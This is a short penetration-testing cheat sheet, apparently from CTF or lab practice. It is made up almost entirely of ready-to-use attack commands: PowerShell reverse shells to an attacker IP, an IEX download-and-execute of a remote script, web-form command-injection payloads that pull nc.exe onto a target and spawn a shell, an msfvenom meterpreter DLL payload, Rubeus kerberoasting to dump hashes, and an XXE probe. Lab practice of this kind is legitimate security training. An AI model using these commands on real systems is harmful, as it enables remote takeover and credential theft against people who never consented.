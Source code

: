 
# reverse powershells
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.13.1.99",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.13.1.99',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# command to trigger rev powershell 
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.13.1.99/revShell.ps1')"

# command injection payload via web form 
sudo tcpdump -i tun0 icmp  (on attacker machine)
admin | ping 10.13.1.99		(on target web app)

# using nc.exe binary on windows target for rev shell 
cd into dir with binary -> /home/kali/Shared/Opt-Tools/static-binaries/otherBinaries/windows/nc.exe
fire up python server on 80 (same terminal of attacker)
setup netcat listener on 1337 (on another terminal of attacker)
curl -H "Cookie: token=<REQUEST_COOKIE>"  -X POST http://10.10.147.72/profile -d 'username=testadmin | powershell curl 10.13.1.99/nc.exe -o nc.exe'(transfer nc binary to target via web form command injection)
nc.exe 10.13.1.99 1337 -e powershell (on target app)

# msfvenom 64 bit paylod via dll 
msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=10.13.1.99 LPORT=1338 > rev_x64.dll

# dump kerb hashes via rubeasu
.\Rubeus.exe kerberoast /outfile:dump.txt

# find flags via windows 
dir flag.txt /s /p

# xxe injection test payload
#uncomment this <?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE replace [<!ENTITY xxe "VulnerableToXXE"> ]><root>
   <name>
     1
   </name>
   <search>
     &xxe;
   </search>
 </root>
